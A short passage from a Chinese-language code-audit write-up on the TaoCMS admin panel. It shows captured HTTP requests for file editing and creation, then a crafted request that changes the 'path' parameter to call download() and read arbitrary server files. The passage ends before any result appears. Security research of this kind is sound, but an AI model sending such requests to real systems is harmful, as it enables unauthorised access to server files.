   

<table><tr><td bgcolor=yellow> <b>action</b> 传入需要实例化的类名， <b>ctrl</b> 传入需要调用的方法。</td></tr></table>

  

根据file.php提供的线索可以知道，它提供功能给 **文件管理** ,点击已存在的文件：

```http

//api.php

GET /admin/admin.php?action=file&ctrl=edit&path=api.php HTTP/1.1

```

<br>

<br>

  

随便新建文件 `fly.php`，抓包后得到：

  

```http

GET /admin/admin.php?path=&action=file&ctrl=create&isdir=0&name=fly.php&fbtn=%E6%96%B0%E5%BB%BA%E6%96%87%E4%BB%B6 HTTP/1.1

Host: taocms

  

//找了一下，fbtn出现在managerfile.php中，作为input name 和 id

```

  

由上面两个例子可以看到，就如我们所说，path可控所以

  

修改path再调用存在问题的`function download()`：

  

```http

  

GET /admin/admin.php?path=/rss.php&action=file&ctrl=download HTTP/1.1

Host: taocms

  

```

  

得到
